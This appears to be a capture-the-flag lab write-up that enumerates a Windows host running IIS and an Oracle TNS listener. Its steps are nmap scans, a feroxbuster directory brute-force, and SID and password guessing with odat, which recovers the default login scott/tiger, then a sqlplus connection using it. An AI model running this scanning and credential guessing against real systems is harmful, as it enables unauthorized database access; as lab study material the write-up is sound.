

└─$ nmap -sC -sV -oA nmap/initial 10.129.84.231
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 08:08 EDT
Nmap scan report for 10.129.84.231
Host is up (0.084s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   302: 
|_    Message signing enabled but not required
|_clock-skew: mean: -1s, deviation: 0s, median: -2s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-time: 
|   date: 2023-04-30T12:10:24
|_  start_date: 2023-04-29T17:55:15

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 138.87 seconds




./feroxbuster -u https://10.129.84.231 -x php,html

```
6    
[####################] - 6m     90000/90000   244/s   http://10.129.84.231/ 
[####################] - 6m     90000/90000   245/s   http://10.129.84.231/aspnet_client/ 
[####################] - 7m     90000/90000   211/s   http://10.129.84.231/Aspnet_client/ 
[####################] - 7m     90000/90000   201/s   http://10.129.84.231/aspnet_Client/ 
[####################] - 7m     90000/90000   197/s   http://10.129.84.231/aspnet_client/system_web/ 
[####################] - 7m     90000/90000   204/s   http://10.129.84.231/ASPNET_CLIENT/ 
[####################] - 7m     90000/90000   212/s   http://10.129.84.231/Aspnet_client/system_web/ 
[####################] - 6m     90000/90000   239/s   http://10.129.84.231/aspnet_Client/system_web/ 
[####################] - 4m     90000/90000   317/s   http://10.129.84.231/ASPNET_CLIENT/system_web/ 
```


 nmap -p445 --script smb-vuln-* 10.129.84.231
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 09:29 EDT
Nmap scan report for 10.129.84.231
Host is up (0.082s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: No accounts left to try

Nmap done: 1 IP address (1 host up) scanned in 11.98 seconds

installing odat

we first enumerate sids then guess the password
./odat.py sidguesser -s 10.129.84.231 -p 1521   
./odat.py passwordguesser -s 10.129.95.188 -d XE  
[+] Accounts found on 10.129.95.188:1521/sid:XE: 
scott/tiger


scott/tiger is a password

sqlplus scott/tiger@10.129.95.188:1521/XE


